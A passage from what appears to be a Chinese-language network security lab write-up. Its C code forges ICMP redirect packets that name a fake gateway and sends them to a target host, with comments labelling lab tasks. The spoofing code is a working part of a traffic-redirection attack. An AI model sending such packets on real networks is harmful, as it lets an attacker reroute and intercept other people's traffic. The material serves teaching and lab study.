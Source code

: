    ```c
           if(inet_aton(my_IP_dst, &target.sin_addr) == 0){
               printf("create destination_addr error");
               exit(1);
           }
   
           // task-1: 修改rec_buff的ip报文段的值
           ip->ip_src = source.sin_addr;
           ip->ip_dst = target.sin_addr;
           ip->ip_len = 56;
           ip->ip_id = IP_DF;
           ip->ip_off = 0;
           ip->ip_ttl = 64;
           ip->ip_p = 1;
   
           // 把前20个字节写入sendbuf
           for(int i = 0; i < 20; i++){
               send_buff[i] = rec_buff[14 + i];
           }
   
           // task-2: 把send_buff的20-28字段的icmp报文首部填好(直接使用sendbuf填值)
           struct icmp *icmp = (struct icmp *)(send_buff + 20);
           icmp->icmp_type = ICMP_REDIRECT;
           icmp->icmp_code = ICMP_REDIR_HOST;
           icmp->icmp_cksum = 0;
           icmp->icmp_cksum = in_cksum((unsigned short *)icmp,36);
           // 构造icmp重定向报文的fake gatway
           if(inet_aton(fakeGatway, &icmp->icmp_hun.ih_gwaddr) == 0){
               printf("create destination_addr error");
               exit(1);
           }
   
           // 打印的时候用
           printf("重定向报文的源地址: %s\n", my_IP_src);
           printf("重定向报文的目的地址: %s\n", my_IP_dst);
           printf("重定向报文的假网关: %s\n", fakeGatway);
   
           // send
           sendto(sockfd, &send_buff, 56, 0, (struct sockaddr *)&target, sizeof(target));
       }
   
   }
   ```

运行效果：

![运行效果](https://bl6pap004files.storage.live.com/y4mlzg0bESBfeS6OQ-yUDobDUG5GQwmACGOe6aFTOIm3Ke9EyU5rtXMcFACQubS04UIwu1xHEIbrNKhE-JaOiK1AthNQVEoBQjH0Zp-7lE5TQSwqNqjO4uznKx1JdrV8BLBvBYt_wYLUvJEK-lHbTyXBmue9jI3oXp7EFmnyis_oHQON6PKID5T-9aWeFHAmvLC?width=964&height=534&cropmode=none)



## 参考链接
